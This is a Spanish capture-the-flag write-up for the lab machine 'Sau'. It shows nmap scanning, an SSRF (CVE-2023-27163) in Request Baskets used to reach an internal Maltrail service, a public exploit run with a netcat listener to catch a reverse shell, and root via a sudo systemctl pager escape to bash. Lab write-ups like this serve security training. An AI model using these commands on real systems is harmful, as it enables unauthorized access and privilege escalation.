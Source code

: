 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Sau

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.224
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190333.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.224
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190507.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH)**: El servicio SSH está en ejecución con la versión 8.2p1 de OpenSSH en un sistema Ubuntu. Esta versión es relativamente moderna y es probable que esté actualizada, pero aún es importante revisar posibles vulnerabilidades específicas de esta versión, como debilidades en la configuración del servicio o ataques de fuerza bruta si no se utiliza autenticación de clave pública. El escaneo de las claves del host muestra RSA, ECDSA y ED25519, lo que sugiere que se están utilizando claves modernas, lo que es una buena práctica.
* **Puerto 80 (HTTP)**: El puerto 80 está filtrado, lo que significa que no hay respuesta directa en este puerto desde el escaneo. Podría haber un firewall o una configuración de seguridad que bloquea el tráfico en este puerto, o simplemente podría no estar activo.
* **Puerto 55555 (HTTP)**: Este puerto está abierto y ejecuta un servidor HTTP construido con Golang, como indica la descripción. El título de la página es "Request Baskets" y la solicitud fue redirigida a `/web`, lo que indica que la aplicación web probablemente tenga rutas configuradas para manejar diferentes solicitudes.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,55555 -v 10.10.11.224
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reviso el puerto 55555.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mirando la página nos sale la versión por lo que buscamos si tiene un CVE para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar una búsqueda en Google, se puede identificar que esta versión es vulnerable a una falla de SSRF (Server Side Request Forgery), CVE-2023-27163, que afecta al componente de la API de Request Baskets, específicamente en el endpoint `/api/baskets/{name}`. Esta vulnerabilidad permite a los atacantes realizar solicitudes manipuladas a la API, lo que les da acceso a recursos internos de la red e información sensible.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Enviamos la petición como se nos indica.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dado que esta versión es vulnerable a SSRF y que el puerto 80 estaba filtrado, lo que nos impedía acceder a él desde el exterior, modificaremos la configuración para redirigir las solicitudes GET hacia el propio localhost del servidor, específicamente al puerto 80. De esta forma, conseguiremos establecer una conexión con los recursos internos del servidor.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Recargamos de nuevo.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos si la versión de **Maltrail** tiene alguna vulnerabilidad por internet.

{% @github-files/github-code-block url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

Ejecutamos mientras nos ponemos en escucha.

```bash
python3 exploit.py 10.10.14.14 4444 http://10.10.11.224:55555/6ywt1xx/
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 195946.png" alt=""><figcaption></figcaption></figure>
